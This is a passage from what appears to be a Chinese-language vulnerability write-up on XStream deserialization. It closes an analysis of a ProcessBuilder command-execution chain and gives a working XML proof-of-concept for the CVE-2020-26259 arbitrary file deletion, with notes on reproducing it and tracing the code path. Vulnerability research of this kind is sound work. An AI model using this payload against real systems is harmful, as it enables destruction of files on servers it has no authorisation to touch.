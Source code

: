 filter则是javax.imageio.ImageIO$ContainsFilter

跟进过来看到

![image-20220518164546370](images/50.png)

调用了method.invoke传入的参数就poc构造的java.lang.ProcessBuilder

在method和elt都可控的情况下，method控制为ProcessBuilder类的start方法，因为这是个无参的方法，直接传入ProcessBuilder对象即elt即可，通过反射执行了ProcessBuilder类的start方法造成了命令执行

# CVE-2020-26259任意文件删除漏洞

## 漏洞复现

poc

```XML
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
                        <contentType>text/plain</contentType>
                        <is class='com.sun.xml.internal.ws.util.ReadAllStream$FileStream'>
                            <tempFile>/test.txt</tempFile>
                        </is>
                    </dataSource>
                    <transferFlavors/>
                </dataHandler>
                <dataLen>0</dataLen>
            </value>
        </jdk.nashorn.internal.objects.NativeString>
        <string>test</string>
    </entry>
</map>
```

在我的根目录下创建一个txt后，运行后删除

## 漏洞分析

其实这个POC和上面CVE-2020-16217差别不大，只是is属性变了而已，继续看到这个get方法

![image-20220518170205555](images/51.png)

之前是从readFrom下手，这次是从close方法下手

此时的is是com.sun.xml.internal.ws.util.ReadAllStream$FileStream，跟入`com.sun.xml.internal.ws.util.ReadAllStream$FileStream`中的close方法
